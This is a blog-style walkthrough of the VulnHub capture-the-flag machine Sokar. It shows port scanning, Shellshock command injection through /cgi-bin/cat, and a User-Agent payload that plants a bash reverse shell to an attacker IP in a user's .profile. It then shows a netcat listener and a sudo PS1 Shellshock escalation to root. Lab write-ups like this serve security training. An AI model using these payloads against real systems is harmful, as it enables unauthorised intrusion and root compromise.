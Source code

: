 ```yaml
---
layout: blog_item
title:  "Sokar - Walkthrough"
date:   2015-02-23 14:00:10
author: Dhruv Ambaliya
description: 'Sokar - Walkthrough Guide'
categories: [walkthroughs]
tags:
- CTF
---
```



<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Coffee Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee"></i><i class="fa fa-coffee"></i><i class="fa fa-coffee"></i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Description

Sokar was a vulnhub competition, unfortunately I did not have enough free time to compete.

**Author:** @_RastaMouse

**Download:** [VulnHub](https://www.vulnhub.com)


## Enumeration

### Port Scanning

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 192.168.30.148

{% endhighlight %}


### Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 591</code></p></pc>
           </td>
           <td>
               <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.15 ((CentOS))</p></pc>
           </td>
        </tr>
        </tbody>

</table>
</div>

### HTTP Enumeration

Inspection of the Web Application revealed <code>/cgi-bin/cat</code> which indicated it could be vulnerable to shellshock.

### Shellshock

The Shellshock exploit was used to execute remote commands on the target system, however a reverse shell or bind shell were not possible due to restrictive ingress and egress firewall rules. This made for a painful local enumeration of the system via **Burp Suite**.  

#### Identify Current User

![Shellshock ID](/img/blog/sokar/shellshock-id.png)

#### Shellshock home dir perms

![Shellshock home dir](/img/blog/sokar/shellshock-home-dirs.png)

#### Shellshock files owned by user bynarr  

![Shellshock find command](/img/blog/sokar/shellshock-find.png)

The file <code>/tmp/stats</code> appeared to get updated every few minutes, indicating a cronjob *could* be running.

#### Shellshock mail spool readable

![Shellshock mail](/img/blog/sokar/shellshock-mail.png)

The above disclosed <code>bynarrs</code> passwords and the outbound port <code>51242</code> rule for the user.

## Reverse Shell

The following shellshock payload was sent using Burp Suite:

{% highlight bash %}
User-Agent: () { :;};echo;/bin/echo '/bin/bash -i >& /dev/tcp/192.168.221.139/51242 0>&1 ' > /home/bynarr/.profile;
{% endhighlight %}

The cronjob called the .profile file and execute the file contents.

A reverse shell was successfully spawned as the user <code>bynarr</code>

{% highlight bash %}
[root:~/Downloads]# nc.traditional -lp 51242 -vvvv
listening on [any] 51242 ...
192.168.221.148: inverse host lookup failed: Unknown host
connect to [192.168.221.139] from (UNKNOWN) [192.168.221.148] 59533
bash: no job control in this shell
{% endhighlight %}


## Local Enumeration

The following disclosed several bash environment variables were permitted to run as the user <code>bynarr</code> with sudo permissions.

{% highlight bash %}
[bynarr@sokar ~]$ sudo -l
sudo -l
Matching Defaults entries for bynarr on this host:
    !requiretty, visiblepw, always_set_home, env_reset, env_keep="COLORS
    DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1
    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL
    LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User bynarr may run the following commands on this host:
    (ALL) NOPASSWD: /home/bynarr/lime

{% endhighlight %}

## Shellshock Local Privilege Escalation

The following shellshock payload was crafted to successfully escalate permissions to root:

{% highlight bash %}
sudo PS1="() { :;} ;  /bin/sh" /home/bynarr/lime
{% endhighlight %}

## Root Flag

{% highlight bash %}
[bynarr@sokar tmp]$ sudo PS1="() { :;} ;  /bin/sh" /home/bynarr/lime
sudo PS1="() { :;} ;  /bin/sh" /home/bynarr/lime
sh-4.1# ls -la /home/bynarr/lime
ls -la /home/bynarr/lime
-rwxr-xr-x 1 root root 368 Jan 27  2015 /home/bynarr/lime
sh-4.1# cat /root/flag
cat /root/flag
                0   0
                |   |
            ____|___|____
         0  |~ ~ ~ ~ ~ ~|   0
         |  |   Happy   |   |
      ___|__|___________|___|__
      |/\/\/\/\/\/\/\/\/\/\/\/|
  0   |    B i r t h d a y    |   0
  |   |/\/\/\/\/\/\/\/\/\/\/\/|   |
 _|___|_______________________|___|__
|/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/|
|                                   |
|     V  u  l  n  H  u  b   ! !     |
| ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ |
|___________________________________|

=====================================
| Congratulations on beating Sokar! |
|                                   |
|  Massive shoutout to g0tmi1k and  |
| the entire community which makes  |
|         VulnHub possible!         |
|                                   |
|    rasta_mouse (@_RastaMouse)     |
=====================================
{% endhighlight %}

Thanks for the VM :)
